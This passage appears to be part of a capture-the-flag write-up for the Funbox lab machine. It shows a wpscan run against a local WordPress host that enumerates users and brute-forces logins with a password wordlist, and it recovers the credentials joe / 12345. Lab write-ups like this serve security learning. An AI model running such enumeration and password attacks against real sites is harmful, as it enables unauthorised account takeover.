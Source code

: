 > We also learn that there seems to be a `wordpress` installation.
{: .prompt-info }

---
# exploitation

After we added `funbox.fritz.box` to our `/etc/hosts` we continue by doing a `wpscan`.
```bash
$ wpscan --url http://funbox.fritz.box/ --wp-content-dir wp-admin --passwords /usr/share/seclists/Passwords/xato-net-10-million-passwords-10.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]N
[+] URL: http://funbox.fritz.box/ [192.168.203.77]
[+] Started: Tue Aug 22 09:43:04 2023

Interesting Finding(s):
...
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://funbox.fritz.box/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] joe
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - joe / 12345                                                                                                                                                                                                                     
Trying joe / 111111 Time: 00:00:02 <==============================================================================================================                                                         > (18 / 27) 66.66%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: joe, Password: 12345
...
```
